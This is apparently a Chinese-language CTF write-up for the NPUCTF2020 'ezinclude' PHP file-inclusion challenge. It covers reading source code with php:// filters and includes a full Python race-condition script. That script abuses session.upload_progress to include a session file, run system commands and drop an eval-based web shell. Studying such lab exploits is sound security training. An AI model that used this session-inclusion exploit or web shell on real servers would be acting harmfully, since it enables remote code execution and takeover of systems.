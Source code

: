 # [NPUCTF2020]ezinclude

![image-20210607170816189]([NPUCTF2020]ezinclude/image-20210607170816189.png)

## 知识点

- Cookie的hase值
- php伪协议读源码
- session.upload_progress条件竞争上传shell

## 解题

进入环境抓包	

![image-20210607170016604]([NPUCTF2020]ezinclude/image-20210607170016604.png)

给出了`md5($secret.$name)===$pass`

但是还给了hash值，所以直接pass传一下

![image-20210607170300979]([NPUCTF2020]ezinclude/image-20210607170300979.png)

得到了`flflflflag.php`文件，进入发现是一个文件包含

![image-20210607170342524]([NPUCTF2020]ezinclude/image-20210607170342524.png)

利用PHP伪协议读源码

![image-20210607170705722]([NPUCTF2020]ezinclude/image-20210607170705722.png)

```php
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_åºé¢äºº_wants_girlfriend</title>
</head>
<>
<body>
<?php
$file=$_GET['file'];
if(preg_match('/data|input|zip/is',$file)){
	die('nonono');
}
@include($file);
echo 'include($_GET["file"])';
?>
</body>
</html>

```

过滤了data和input，没法直接命令执行。长度远程包含发现不行，再尝试包含apache的日志文件，也不行。

可以尝试利用session.upload_progress进行session文件包含：

```python
import io
import sys
import requests
import threading

host = 'http://f218d59a-ac81-4409-9ef6-2dfd7a46fd6d.node3.buuoj.cn/flflflflag.php'
sessid = 'y0lo'

def POST(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            host,
            data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('ls /');fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');echo md5('y0lo');?>"},
            files={"file":('a.txt', f)},
            cookies={'PHPSESSID':sessid}
        )

def READ(session):
    while True:
        response = session.get(f'{host}?file=/tmp/sess_{sessid}')
        # print(response.text)
        if '3e490c2f6108cf21d95c6b7a5f64deb3' not in response.text:
            print('[+++]retry')
        else:
            print(response.text)
            sys.exit(0)


with requests.session() as session:
    t1 = threading.Thread(target=POST, args=(session, ))
    t1.daemon = True
    t1.start()
    READ(session)

```

写进shell.php，执行phpinfo即可找到flag。

![image-20210607171139077]([NPUCTF2020]ezinclude/image-20210607171139077.png)